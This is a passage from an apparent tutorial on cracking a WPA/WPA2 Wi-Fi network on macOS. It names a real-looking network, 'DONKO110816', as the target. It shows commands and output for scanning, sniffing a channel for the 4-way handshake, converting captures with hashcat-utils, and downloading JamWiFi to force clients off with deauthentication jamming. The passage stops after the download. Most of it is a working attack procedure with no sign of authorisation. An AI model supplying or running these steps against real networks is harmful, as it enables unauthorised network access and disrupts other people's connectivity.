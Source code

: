 ```
$ sudo airport -s
                            SSID BSSID             RSSI CHANNEL HT CC SECURITY (auth/unicast/group)
                         SS WiFi d2:32:e5:18:b0:c6 -92  10,-1   Y  US WPA2(PSK,FT-PSK/AES/AES)
                     DONKO110816 dc:9b:d6:22:44:54 -90  40,-1   Y  -- WPA(PSK/TKIP,AES/TKIP) WPA2(PSK/TKIP,AES/TKIP)
```

We'll be targetting the network "DONKO110816" for the rest of this tutorial.

#### Sniff an 802.11 Wi-fi channel

The goal of this is to listen on an 802.11 Wi-fi channel for a 4-way handshake. The airport utility saves sniffed/captured 802.11 frames in `.cap` format.

This is equivalent to `.pcap` files, which we can inspect in Wireshark if we wish to do so.

```
$ airport en0 sniff 40
Capturing 802.11 frames on en0.
^CSession saved to /tmp/airportSniff641Yr9.cap.
```

#### Convert capture file into hcx file

The `.cap`/`.pcap` file includes a lot of noise that we want to filter out.
Convert to `.hccapx`.

This can be done with the [cap2hashcat online tool](https://hashcat.net/cap2hashcat/), or by building the same tool locally from source:

```
git clone https://github.com/hashcat/hashcat-utils.git
cd hashcat-utils/src
gcc -o cap2hccapx cap2hccapx.c
mv ./cap2hccapx /usr/local/bin/
```
 
Convert the file:

```
$ cap2hccapx capture.cap capture.hccapx
Networks detected: 3

[*] BSSID=dc:9b:d6:21:b8:44 ESSID=DONKO110816 (Length: 11)
[*] BSSID=dc:9b:d6:22:44:5c ESSID=DONKO110816 (Length: 11)
[*] BSSID=dc:9b:d6:22:44:54 ESSID=DONKO110816 (Length: 11)

Written 0 WPA Handshakes to: capture.hccapx
```

Note that there were 0 WPA Handshakes captured... we'll need to get fancier with our attack.

We can jam the Wi-fi channel with deauthentication messages that will force the clients to reconnect to the router/base-station.

We can achieve this by downloading the [JamWiFi app for MacOS](https://github.com/0x0XDev/JamWiFi).

```
$ wget https://github.com/0x0XDev/JamWiFi/releases/download/v1.3.2/JamWiFi.zip
[Output hidden for conciseness]

HTTP request sent, awaiting response... 200 OK
Length: 3841784 (3.7M) [application/octet-stream]
Saving to: ‘JamWiFi.zip’

JamWiFi.zip 100%[=============================>]   3.66M  3.58MB/s    in 1.0s

2021-11-25 13:51:08 (3.58 MB/s) - ‘JamWiFi.zip’ saved [3841784/3841784]
```
